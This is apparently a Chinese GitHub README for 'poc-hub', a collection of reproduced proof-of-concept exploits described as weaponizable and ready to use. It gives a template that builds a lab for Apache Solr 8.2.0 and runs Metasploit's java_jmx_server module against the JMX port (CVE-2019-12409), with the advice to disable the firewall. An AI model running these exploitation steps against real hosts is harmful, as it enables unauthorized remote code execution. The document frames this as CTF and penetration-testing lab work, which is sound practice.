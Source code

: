 # poc-hub
收集我复现过的各种poc于此处，同时编写工具自动化检测并利用

此项目源于要参加一场线下的CTF决赛，由于断网，故需要大量本地poc，考虑到也可为日后的渗透测试工作提供便利

当前仓库没有漏洞分析，只有POC，都是经过手动验证过的，可武器化且开箱即用的

漏洞复现模板如下：
```
# 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Solr 8.2.0

# 0x01 环境搭建
目标环境：centos7_x64_en-us + solr-8.2.0.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz  
tar -xvf ./solr-8.2.0.tgz  
cd ./solr-8.2.0.tgz/bin/  
./solr start -force#默认启动端口8983  
启动后浏览器访问http://127.0.0.1:8983/ ，出现下图所示表示环境配置完成：  
![image](./1.png)  

# 0x02 利用条件
无

# 0x03 影响版本
Solr 8.1.1  
Solr 8.2.0

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfconsole  
use exploit/multi/misc/java_jmx_server  
set rhosts 172.16.35.138  
set rport 18983  
run  
![image](./2.png)

# 0x05 踩坑记录
坑1：  
centos7下默认开启防火墙，需要临时关闭防火墙：“systemctl stop firewalld”

# 0x06 参考链接
https://github.com/jas502n/CVE-2019-12409

```

